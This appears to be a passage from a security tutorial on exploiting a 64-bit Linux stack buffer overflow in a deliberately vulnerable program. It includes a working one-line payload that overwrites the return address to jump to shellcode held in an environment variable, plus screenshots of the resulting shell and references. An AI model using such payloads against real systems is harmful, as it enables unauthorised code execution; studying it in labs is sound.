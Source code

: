 ```python
(python -c "print 'A'*104 + '\xa8\xef\xff\xff\xff\x7f\x00\x00'"; cat) | ./vulnerable
```

![Vulnerable program is exploited and results in a new shell](../../../.gitbook/assets/x64-stack-overflow.gif)

To confirm the exploit worked as expected, we can `unset` the `PWN` environment variable and try to exploit the program again just to see the program crash, since it no longer knows what shellcode to execute:

![Exploit no longer works since shellcode is gone from the PWN environment variable](<../../../.gitbook/assets/image (879).png>)

## References

{% embed url="https://www.ret2rop.com/2018/08/stack-based-buffer-overflow-x64.html" %}

{% embed url="https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/" %}

{% embed url="https://medium.com/@_neerajpal/explained-difference-between-x86-x64-disassembly-49e9678e1ae2" %}

[https://www.cs.tufts.edu/comp/40/docs/x64\_cheatsheet.pdf](https://www.cs.tufts.edu/comp/40/docs/x64\_cheatsheet.pdf)
